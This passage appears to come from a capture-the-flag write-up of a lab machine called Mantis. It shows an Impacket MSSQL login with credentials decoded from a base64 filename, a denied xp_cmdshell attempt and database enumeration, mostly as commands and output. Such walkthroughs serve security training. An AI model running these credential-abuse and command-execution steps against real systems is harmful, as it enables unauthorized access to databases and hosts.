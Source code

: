 The name of the file was a little strange, and also the credentials aren't valid when used to login to the MSSQL service:

```
$ mssqlclient.py 'sa:@dm!n_P@ssW0rd!@10.129.77.179'                        
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[-] ERROR(MANTIS\SQLEXPRESS): Line 1: Login failed for user 'sa'.
```

The name of the file contained a string which looks like `base64`. We can decode it to find another password:

```
$ echo NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d | xxd -r -p
m$$ql_S@_P@ssW0rd!
```

These credentials don't work with the `sa` user, but they do for `admin`:

```
$ mssqlclient.py 'admin:m$$ql_S@_P@ssW0rd!@10.129.77.179'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands
SQL> 
```

We aren't allowed to execute `xp_cmdshell` in this instance:

{% code overflow="wrap" %}
```
SQL> exec xp_cmdshell 'whoami'
[-] ERROR(MANTIS\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
```
{% endcode %}

So let's just take a look at the database itself. We can first find the databases present:

{% code overflow="wrap" %}
```
SQL> SELECT name FROM master..sysdatabases;
name                                                                                                                               

master                                                                                                                             
tempdb                                                                                                                         
model                                                                                                                              
msdb                                                                                                                               
orcharddb 
```
{% endcode %}
